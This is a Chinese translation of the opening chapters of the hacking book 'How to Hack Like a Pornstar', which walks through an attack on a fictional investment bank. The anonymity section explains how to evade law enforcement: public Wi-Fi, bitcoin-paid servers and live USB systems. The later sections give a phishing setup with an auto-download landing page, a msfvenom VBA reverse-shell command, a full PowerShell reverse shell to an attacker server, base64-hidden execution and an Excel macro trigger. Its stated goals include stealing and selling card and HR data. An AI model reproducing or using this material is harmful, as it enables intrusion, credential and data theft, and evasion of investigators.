{width="8.258333333333333in"
height="11.806742125984252in"}

How to Hack Like a Pornstar
===========================

> *Master the secrets of hacking through real-life hacking scenarios*
>
> *通过现实生活中的黑客场景掌握黑客攻击的秘密*

**Copyright © 2017 Sparc FLOW**

**本书籍由0penSec内部翻译，由z3r0yu修订，在不侵害原版权商和原作者的前提下，进行翻译仅供内部学习使用，其他方式的复制、分发传播请遵守原版权商的约定。**

**译者：两块（0penSec）**
**译者：z3r0yu**

版权所有。未经出版商事先书面许可，不得以任何形式或方式（包括影印，录制或其他电子或机械方法）复制、分发或传播本出版物的任何部分，除非有简短的引用。在严格审查和版权法允许的某些其他非商业用途。

**ISBN** 978-1-5204-7851-7

前言
====

这不是一本关于信息安全的书，当然也不是关于IT方面的书籍。这是一本关于黑客攻击的书，具体来说，如何渗透进入某一公司的网络，找到他们最关键的数据，并在不触发公司浪费预算而购置的任何亮眼的新安全措施(工具)的情况下窃取数据。

无论你是一个崇尚道德的黑客，还是一个因过时的书籍和虚假媒体报道而感到沮丧被挫败的爱好者，这本书绝对适合你。

我们将设置一个虚假但足够现实的目标，并详细介绍渗透入公司的主要步骤：构建网络钓鱼恶意软件，查找漏洞，扎根Windows域，获取大型机权限等。

我几乎记录了本书中使用的所有工具和自定义脚本。我强烈建议您在您可控制和自己拥有的环境中测试并掌握它们的功能（和限制）。考虑到这本书的性质，期望它涵盖所有可以想象的每一种黑客技术是荒谬的，尽管我会尽力提供尽可能多的例子，同时坚持本书的既定目的。

我将通过简要解释它们如何工作以及它们在黑客场景中的含义来简述一些像IPSEC，TOR和NTLM这样的概念。如果您想要深入了解，我强烈建议您按照我在每个项目附近提供的链接，探索每种技术和工具背后的黑暗、有趣的概念。

***Note:**
本书中记录的自定义脚本和特殊命令可以在[www.hacklikeapornstar.com](http://www.hacklikeapornstar.com)上公开获得。*

重要免责声明
============

本书中的例子完全是虚构的。提供的工具和技术是开源的，因此可供所有人使用。Pentesters经常在测试工作任务中使用它们，但攻击者也是如此。如果您最近遭受了攻击，并找到了本书中所示的技术或工具，那么这绝不会导致本书的作者入罪，也不会暗示作者与犯罪者之间存在任何联系。

与本书中包含的内容相关的任何行动和或活动完全由您自己负责。滥用本书中的信息可能会导致对相关人员提起刑事指控。如果对任何滥用本书信息的人违反法律规定提起任何刑事指控，作者将不承担任何责任。

本书不会促进黑客攻击，软件破解或盗版。本书中提供的所有信息仅用于教育目的。它将帮助公司保护其网络免受所提出的攻击，并将帮助调查人员评估在事件期间收集的证据。

**未经计算机系统所有者书面许可授权，执行任何黑客攻击或测试都是非法的。**

安全第一
========

> *"I am a blank slate -- therefore I can create anything I want."*

***Tobey Maguire***

如果有一个部分是大多数黑客书籍和博客文章目前忽视的话，那就是关于黑客攻击的"保持安全"部分。换句话说，他们没有详细说明典型黑客可以用来保证一定程度的匿名性和安全性的方案和技术。你可能是世界上最好的黑客，但是如果你无法控制你在互联网上的足迹并正确地擦除你的踪迹，你就会崩溃和被烧伤。

因此，在尝试新技术之前，我们将详细介绍如何堆叠安全层以确保最大程度的保护。如果您想立即开始黑客攻击，请随意跳转到第3节，但请确保您以后有时间再阅读此部分。

白板
----

最有效的黑客安全规则可以用七个词来概括："每次都从头开始"。通过"从头开始"，我的意思是为每次攻击使用一台新计算机、新热点、新IP地址和新服务器。调查人员将寻找攻击之间的共同模式。他们会尝试将小证据拼凑在一起，以获得更大更清晰的犯罪者画像："我们是否在另一次攻击中看到了这个IP？当时使用哪种浏览器[[1]](l)？它访问了哪个Gmail/Yahoo/Microsoft/Facebook帐户？"

不要认为执法机构在进行调查时是独自行动。他们可以访问一个信息资源池，从本地互联网服务提供商的记录到社交网站的记录。想了解政府（美国，法国，加拿大，英国等）实施的大规模监视项目，请查看爱德华·斯诺登的故事[2]，并准备好大吃一惊。

每次重置开始，都有助于在研究人员收集到的证据周围留下神秘迷惑的谜团（障眼法），并防止他们将取证元素组合起来追溯到你的真实身份。

网络匿名
--------

空白板原则的第一个准则是永远不要（决不）使用您的家庭/大学/工作IP地址。即使有双重匿名性。将总是假设（可能发生以下情况），在某个时刻，系统中的一个小故障可能会以某种方式将您的真实IP泄露给调查员：您忽略的细节，某些技术的限制，或NSA的超级情报系统。只要被发现与现实世界的（威胁情报）一个小联系，就会激励执法人员继续深入挖掘线索，签发逮捕令并迫使你承认。我们不希望这样。

### 第一层 - 融入

那你应该使用哪种IP？我强烈推荐公共Wi-Fi热点，如快餐店（星巴克、奥林巴斯、麦当劳等）或大型公共聚会场所，如商场、火车站等，只要有足够的人来把你隐藏起来，避免可能被摄像头拍摄到。

访问Wi-Fi热点时，他们可能会要求您提供个人信息，但您当然可以输入您想用的任何信息。如果他们要求进行移动手机验证，请选择其他地点或使用预付费手机SIM卡------如果你有的话，用现金支付。

如果他们要求确认电子邮件，请使用"Yopmail.com"帐户（临时匿名邮箱）。它是一个可以在两秒钟内访问邮箱的网站，这对验证链接和垃圾邮件非常有用。

### 第二层 - 像'冠军'一样走私数据

黑客安全第二层是迄今为止最重要的一层。它通常由一个隧道网络组成，该网络对在其中传输的任何内容进行加密，并且理想情况下，维护关于访问哪个IP的零日志（不记录谁访问IP地址）。

TOR[3]是一个免费的开源项目。它是一个交换加密信息的服务器网络。例如，一个请求将从法国离开您的计算机，进入TOR网络，被加密几次，或在到达其最终目的地（Facebook，Twitter等）之前从中国的服务器发出。

{width="5.629630358705162in"
height="4.264554899387576in"}

访问的服务(Facebook)无法看到原始IP地址，它们只看到出口节点的IP地址。由于许多人都在使用这个此节点，因此对于稍后进行调查的任何人来说，它很快就会变得非常混乱。

第一个节点知道您的真实IP地址（以及您的真实位置），但不知道您的请求最终会使用哪个出口节点。最重要的是，如果使用SSL[4]（HTTPS）检索网页，则第一个节点将无法再查看您的请求内容，只能看到Facebook的IP地址。

鉴于有大量节点可用于响应用户的请求，通过恶意使用入口和出口节点的机会似乎相当低。虽然这是事实，但仍然有一些方法可以打破用户的匿名性，而且已被证明是非常有效的。

想象一下，一个恶意网站将代码注入您的TOR网络浏览器。该代码安装恶意软件，该恶意软件将正常请求（不通过TOR）发送到由政府控制的网站。这有效地消除了TOR提供的每一层保护。这种情况完全属于情报机构或重大企业的范畴。

此外，长期以来一直有传言说，一些联邦机构控制着TOR网络上的大量节点，因此可以关联不同的信息和统计数据，以便唯一地识别TOR用户，请注意提防这项服务的局限性。

如果TOR不是您的最佳选择，另一种方法是VPN提供商 -
最好是付费[5]，以便您可以确保一定的质量水平。

虚拟专用网络（VPN）是两台或多台机器之间的加密网络。VPN提供商在您的工作站与其中一台服务器之间构建隧道。您从浏览器发出的任何请求都将通过该服务器，在此过程中隐藏您的真实IP地址。

{width="5.583333333333333in"
height="3.921020341207349in"}

计算机的每个请求都是加密的。您的本地ISP不会知道您要发送的流量或您正在联系的IP地址，这对于规避政府机构实施的审查计划非常有用。

当然，在这种设置中，VPN提供商是最薄弱的环节。它知道您的原始IP地址，从而知道您的位置（即使您的姓名，如果您使用信用卡付款）。但是，某些VPN服务可确保其服务器托管在大多数执法机构中立的国家/地区，并保留其服务器上发生的事件的零日志（不记录服务器日志）。有关示例，请查看<https://www.privacytools.io/>。

### 第三层 - 最后一站

回顾一下，我们连接到公共热点并通过TOR或VPN服务器发出所有请求。

您可能认为这是完美的，但这种设置存在一个主要问题：带宽太慢而无法执行任何真正的攻击。此外，IP掩蔽技术将使以后难以使用某些工具和技术（端口扫描和反向shell，仅列出一些）。

这是我们的最终发挥作用的地方：直接连接到互联网的虚拟专用服务器（VPS）。我们将通过低带宽链路控制此服务器，并指示它使用可支配的大带宽向目标发出大量请求：

{width="5.629630358705162in"
height="3.957211286089239in"}

这个名为"Front Gun
server"的VPS当然将以比特币支付[6]（或任何其他匿名加密货币）。实际上，没有证据比信用卡数据更有说服力（也更容易跟踪）。您可以在以下URL找到接受比特币的提供商列表[7]。

> 此服务器可以托管您感觉最舒服的任何操作系统。例如，您可以安装Linux kali
> [8]。它预装了方便的工具，为您省去了一些麻烦。就个人而言，我更喜欢同时使用Windows和Linux机器以获得最大的灵活性。实现此目的的一种方法是使Windows操作系统，并安装有托管Linux
> KALI的虚拟机的虚拟机平台软件。

假设一名调查员正在跟踪攻击。他们将识别并最终获取它（Front Gun server）的IP（如果可能的话）或者入侵它以检查传入的IP连接。这些IP地址最终将成为数百或数千个其他用户使用的VPN出口节点。VPN提供商处于中立国家，不保留日志或访问信用卡信息。即使出现奇迹，他们选择与执法部门合作并监视他们的用户，他们也可能会移交位于另一个国家的公共热点的IP地址，此IP每天都有成千上万的用户使用。这是一系列漫长的追溯过程，使得调查的回报越来越少，直到最终成本超过损失，并且（希望）案件被撤销结束。

系统匿名
--------

> 由于Front Gun
> server是发起所有攻击的服务器，因此您应该下载并安装所有您喜欢的工具。无需在本地计算机上保留任何内容，从而大大降低了与任何恶意行为相关联的可能性。
>
> 实际上，您的本地计算机可能只包含通过实时USB密钥启动的临时操作系统[9]。这样，每次重启后，任何远程绑定您与攻击的数据都将被删除。
>
> 至于选择哪种Linux发行版，如果你使用的是TOR网络，则选择WHONIX
> [10]或TAILS [11]，它封装了TOR网络内的所有流量。否则，Linux
> KALI可能是最简单的选择，但任何Linux发行版都可以，只要您可以在其上安装VPN客户端。

Getting in
==========

> *"There is a crack in everything, that's how the light gets in."*

***Leonard Cohen***

> 您找到了匿名获取免费互联网的完美地点，您已经设置了TOR/VPN网络，并且您有一个虚拟私人服务器充当前线枪炮。你感到注入兴奋，你准备好了！
>
> 我们的（虚假）目标将是一家名为Slash＆Paul's
> Holding的公司。它是一家投资银行，为世界上一些最富有的客户管理资产。他们并不是特别邪恶，只是他们碰巧有巨额资金。
>
> 在启动我们的工具和技巧之前，让我们先停一停，并就我们的（非）神圣目标达成一致：

-   我们希望获得CEO的电子邮件，因为这是一个经典动作！

-   我们还想窃取和售卖，业务和人力资源数据：帐号，信用卡数据，员工信息等。

-   但最重要的是，我们希望完全在雷达下飞行。

> SPH（Slash＆Paul's
> Holding）的基础设施以广泛的，简单的方式，可能如下所示：
>
> {width="4.743957786526684in"
> height="3.2777777777777777in"}
>
> 当然，这个图过于简单化，因为真正的网络可能要复杂得多。但我们总会找到相同的通用元素：

-   非军事区（DMZ），以下称为蓝色区域，它通常拥有面向互联网的服务器，这使得在所有标准下都成为"不受信任"的区域，尽管一些公司坚持要求它几乎完全访问内部网络。

-   绿色区域代表内部网络。它包含工作站、业务应用程序、电子邮件服务器、网络共享等。

-   然后是黑暗区域（我们根本不知道那里有什么）。这一切都取决于SPH的网络配置。在一项轻松的工作中，大多数关键服务器都将放置在绿色区域中，将黑色区域缩小为包含一些摄像头和手机的小区域。但是，越来越多的公司正在转向保护防火墙后面的最重要资产，创建多个小型、孤立的网络。

> 但是，让我们不要走得太远，而是专注于下一步：如果我们足够幸运的话，在上面的蓝色区域（DMZ）中建立一个温暖的巢
> - 甚至是绿色区域中。
>
> 我们有几种选择：

-   网络钓鱼。到目前为止最受欢迎的选择，稍后我们会看到原因。

-   攻击蓝色区域中的公共服务器。虽然困难，但效率更高。

-   需要虚假的USB、硬件植入等深奥的社会工程学形式。我们将把它留给真正有动力的黑客。

    1.  必须把它们全都干掉
        ------------------

> 网络钓鱼是诱骗用户执行以某种方式削弱公司安全性的操作的行为：点击一个链接，泄露他们的密码，下载看似无害的软件，将钱汇到某个帐户等等。
>
> 经典的网络钓鱼攻击目标针对成百上千的用户，以确保取得一定程度的成功率。有针对性的网络钓鱼活动可以高达30％[12]成功率。一些更隐蔽的活动可能只针对少数关键员工，提供针对他们的消息高度定制，也就是鱼叉式网络钓鱼。
>
> 从黑客的角度来看，网络钓鱼攻击是首选，原因很简单：如果我们成功，我们就会控制位于绿色区域内部的机器。这就像坐在办公室里，在公司网络上有一个帐户。它是无价的！
>
> 现在，对于我们的网络钓鱼活动，我们需要几个关键要素:

-   员工列表及其电子邮件地址。

-   好的电子邮件创意。

-   电子邮件发送平台。

-   一个干净的恶意文件，让我们可以访问用户的计算机。

> 让我们按顺序来处理它们。

### 电子邮件通过电子邮件发送电子邮件

> 几乎每家公司都有一个公共网站，我们可以浏览以获取有关其业务、专业领域和联系信息的基本信息：通用电子邮件地址、电话号码等。
>
> 公司的电子邮件地址很重要，因为它泄露了两个关键要素：

-   电子邮件服务使用的域名（可能与官方网站的地址相同或不同）

-   电子邮件的格式：例如是'name.surname@company.com'还是'first_letter_surname.name@company.com'？

> 访问网页www.sph-assets.com/contact时，我们会找到一个通用的联系地址：marketing@sph-assets.com。这本身并不是很有帮助，但只是发送电子邮件到这个地址[13]将得到一个真实的人在市场部门工作的答复。
>
> {width="5.008005249343832in"
> height="2.0277777777777777in"}
>
> 太好了。我们从这封邮件中得到了两条有价值的信息:

-   电子邮件地址格式：姓的第一个字母后跟着名字:pvilma@sph-assets.com。

-   电子邮件图形图表：默认字体、公司颜色图表、签名格式等。

> 这些信息很关键，因为现在我们只需要在那里工作的人的全名来推断他们的电子邮件地址。感谢Facebook、Twitter和LinkedIn，这简直小菜一碟。我们只需查看一下此公司网页，找出喜欢它的人，关注它或分享其内容。
>
> 可以用一个有趣工具是TheHarvester
> [14]来自动执行此过程，它收集Google/Bing/Yahoo搜索结果中的电子邮件地址。然而，求助社交媒体可以提供最准确、最新的结果。

### 电邮内容

> 对于我们的网络钓鱼活动，我们希望邀请其他人打开执行恶意程序的文件。
> 因此，我们的电子邮件需要足够吸引人，以便人们立即打开它，而不仅仅是打个哈欠并把它存档。
>
> 下面，你会发现一些想法，但我相信你可以想出一些更狡猾的办法：

-   最新报告显示销售额急剧下降。

-   紧急发票立即结算。

-   最新的彭博社报道。

-   股东的调查结果。

-   新经理的简历。

> 电子邮件的内容应简明扼要，并模仿我们之前确定的公司电子邮件格式。电子邮件的源地址可能是您可以提出的任何虚构名称。实际上，大多数电子邮件服务器都允许您指定任何源地址而无需执行适当的验证。
>
> 互联网有很多开放的SMTP服务器，我们可以用来自由发送电子邮件，但我们也可以轻松地设置我们自己的电子邮件服务器，将它连接到sph-assets.com并推送网络钓鱼邮件。Gophish
> [15]是一个相当全面和自动化的工具。
>
> 按照其网站（Gophish）上的说明下载并安装该平台。运行后，您就可以开始你的活动了。
>
> 我们首先配置"Sending
> Profile（发送配置文件）"：源电子邮件地址和SMTP服务器（localhost）。理想情况下，我们想要地址接近IT_support@sph-assets.com这个电子邮件，但是，SPH的电子邮件服务器很可能禁止任何设置为xxx@sph-assets.com的传入的电子邮件，这非常有意义。
> 来自"@ sph-assets.com"的所有电子邮件都应来自内部网络，而不是互联网。
>
> 因此，在"Sending
> Profile（发送配置文件）"菜单中，我们需要指定另一个域名，例如sph-group.com。发送电子邮件不需要此域名真实存在。不要费心去创建它。此外，只要我们提出别名："IT
> Support"<it-support@sph-group.com>，人们通常不会注意电子邮件发件人。
>
> {width="5.064815179352581in"
> height="2.1717147856517935in"}
>
> 我们在"Users &
> Groups（用户与群组）"菜单中添加我们想要锁定的目标用户，然后进入"Email
> Templates（电子邮件模板）"来编写我们的邮件内容:
>
> {width="4.955452755905512in"
> height="2.7222222222222223in"}
>
> 我们设计电子邮件的内容，使其方式类似于我们从市场营销人员那里获得的电子邮件（相同的签名、相同的颜色图表、相同的字体等）。该电子邮件将邀请用户单击下载文件的链接。链接将由GoPhish自动填写{{.URL}}变量。
>
> 包含链接而不是直接附加恶意文件可以降低被垃圾邮件过滤器捕获的可能性。
>
> 我们在http://www.noip.com/上为Front Gun
> server注册了一个免费的DNS名称。像sph-group.ddns.net这样的已经足够了。我们稍后在启动钓鱼活动时，需要将此DNS名称指定为变量{{.URL}}的值。
>
> 由于我们不需要诱骗用户向我们提供凭据，因此我们不关心网页的内容。我们将自动触发文件下载，然后将其重定向到真正的SPH网站。
>
> 在Gophish的"Landing Page(登陆页面)"菜单中，我们粘贴以下代码：
```html
<html>

<iframe width="1" height="1" frameborder="0" src=" [File
location on Gophish machine]"></iframe>

<meta http-equiv="refresh"
content="5;url=http://www.sph-assets.com" />

</html>
```

> 钓鱼活动已经准备好启动，除了一个小细节：恶意软件。这将是下一章的主题。

### 恶意文件

> 关于我们可以发送给目标的文件类型，有几种可能性。
> 但是，一个可执行文件（.exe）非常可疑[16]，并且将被所有电子邮件客户端丢弃。我们将使用一些更聪明的东西：一个包含恶意代码的excel电子表格，它可以反向请求我们的服务器，获取执行命令，然后发回结果：反向shell。

1)  **VBA pure breed**

> Visual
> Basic是一种脚本语言，可以嵌入到Office文档（Word、Excel、PowerPoint等）中。它在企业中，被大量使用来处理数据。
> 因此，员工习惯于在打开文档时执行宏（VBA代码）。
>
> 如果您是一个VBA大师，我相信您可以快速找到与我们的Front
> Gun服务器联系的代码，检索命令，然后在受感染的计算机上执行它们。然而，由于VBA绝对不是我的最爱，我将依靠一个自动框架，它提供了许多工具来利用系统并生成有效载荷：Metasploit
> [17]。 它默认安装在Kali Linux上。
>
> 由于我们首先要测试代码，因此我们使用Netcat工具在Front
> Gun服务器上设置了一个监听器。它通常被称为黑客的瑞士军刀。它只是发送和接收原始套接字连接，但它也可以用于获取反向shell，传输文件等。
>
> 此命令将打开端口443并等待传入连接。
```bash
root@FrontGun:~# nc -l -p 443
```
> 接下来，我们使用Metasploit框架的msfvenom来生成恶意VBA有效负载。
```bash
root@FrontGun:~# msfvenom -a x86 --platform Windows -p windows/shell/reverse_tcp -e generic/none -f vba lhost=FrontGun_IP lport=443
```
> 这将为x86架构(操作系统)生成一个反向shell有效负载，无需任何特殊编码（通用/无）。我们在Excel宏中复制/粘贴代码：
>
> {width="5.37611220472441in"
> height="2.638888888888889in"}
>
> 如果我们检查生成的代码，我们将理解它执行以下操作：

-   通过调用过程Workbook_Open（在上图中不可见）在打开文档时启动有效负载；

-   定义一个数组，其中包含执行反向连接和代码执行的实际代码。它在x86汇编语言中，因此独立于所使用的语言（VBA、PowerShell等）；

-   分配一些可执行内存，然后将shell代码复制到内存执行。

> Metasploit几乎总是遵循这种模式来生成其有效载荷，无论使用何种语言。这使得防病毒解决方案能够标记（识别）此工具生成的任何内容变得非常简单。对隐身来说太过分了。
>
> 我们可以很容易的添加加密函数来加密包含shellcode的变量（例如，这里有一些灵感[18]），但是让我们来尝试一种全新的方法，减少障碍。

2)  **powershell来救援**

> PowerShell是Windows上最强大的脚本语言之一。它已迅速成为管理员最信任的工具（同样也是黑客最心爱的情妇）。在这个网页[19]上查看一些非常好的PS工具。
>
> 遵循与以前相同的模式，我们希望在PowerShell中生成反向shell，然后将其嵌入到Office文档中。我们从PS脚本开始[20]。

**#Open a socket connection**
```powershell
$client = New-Object System.Net.Sockets.TCPClient("FGUN_IP",4444);
$stream = $client.GetStream();
```
**#Send shell prompt**
```powershell
$greeting = "PS " + (pwd).Path + "> "
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting)
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};
```
**#Wait for response, execute whatever's coming, then loop back**
```powershell
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "PS " + (pwd).Path +"> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush()
};
$client.Close()
```
> 为了确保脚本正常工作，我们使用以下命令在普通Windows机器上执行它:
```
C:examples> Powershell -Exec Bypass .reverse.ps1
```
> 在Front Gun服务器上，我们在端口4444上设置了监听器：

{width="5.726599956255468in"
height="1.0925929571303588in"}

> 精彩！我们在远程（测试）机器上进行远程执行。理想情况下，我们想使用看起来像这样的VBA代码来调用此脚本：
```
VBA> Shell ("powershell c:tempreverse.ps1 ")
```
> 但是我们需要在目标磁盘上编写脚本，这可能会触发更多警报。避免这种情况的一种方法是使用PowerShell强大的内联命令执行功能！我们执行作为powershell.exe参数传递的代码字符串，而不是执行文件。
>
> 我们首先在每条指令的末尾添加一个分号';'：
```powershell
$client = New-Object System.Net.Sockets.TCPClient("192.168.1.11",4444);
$stream = $client.GetStream();

$greeting = "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($greeting);
$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flus [byte[]]$bytes = 0..255|%{0};
 
while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0) {
$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);
$sendback = (iex $data 2>&1 | Out-String );
$sendback2 = $sendback + "PS " + (pwd).Path + "> ";
$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);
$stream.Write($sendbyte,0,$sendbyte.Length);
$stream.Flush() };
$client.Close();
```

> 然后我们在Linux上用Unicode base64编码脚本的内容:
```bash
FrontGun$ cat reverse.ps1 | iconv -f UTF8 -t UTF16LE | base64
```
{width="5.768518153980753in"
height="1.1592891513560806in"}

> 我们可以使用内联参数- encodedcommand调用这段代码:

{width="5.768518153980753in"
height="3.3790354330708663in"}

> '-W
> hidden'参数将PowerShell保留在后台。最后一步是当用户打开Office文档时调用此过程
> Launch_me()：
```
Sub Workbook_Open()
    Launch_me()
End Sub
```
> 我们可以进一步调整这个VBA宏，使其不那么容易阅读，但这样可以正常工作执行。一个有趣的工具是Lucky
> Strike。它提供了一些很棒的功能，比如使用用户的电子邮件域（@ sph-
> assets.com）加密和其他有用的选项。
>
> 请按照以下地址[21]提供的作者综合指南进行操作。

3)  **The Empire strikes**

> 以前的有效载荷很好，但在现场情况下它有一些主要的限制：

-   因为我们使用原始套接字来启动连接，所以使用Web代理访问互联网的工作站（很可能）将无法连接回来。

-   我们的Netcat侦听器每次只接受一个连接。不适合针对数百名用户的网上网络钓鱼活动。

-   我们使用的shell是相当基础的。有一些自动化命令可能很有趣，例如启动键盘记录器、嗅探密码等。

> 这就是臭名昭著的PowerShell Empire
> [22]派上用场的地方。它是一个框架，提供一个能够处理多个受感染用户的监听器，但也为shell提供了一些有趣的命令，如获取明文密码、数据透视、权限提升等。
>
> 按照此博客文章[[[23]]{.underline}](http://www.powershellempire.com/?page_id=110)下载并安装Empire
> PS（基本上复制Git存储库并启动install.sh）
>
> 在欢迎界面上，转到侦听器菜单（命令侦听器）并使用info命令列出默认设置：

{width="5.768055555555556in"
height="3.5047692475940506in"}

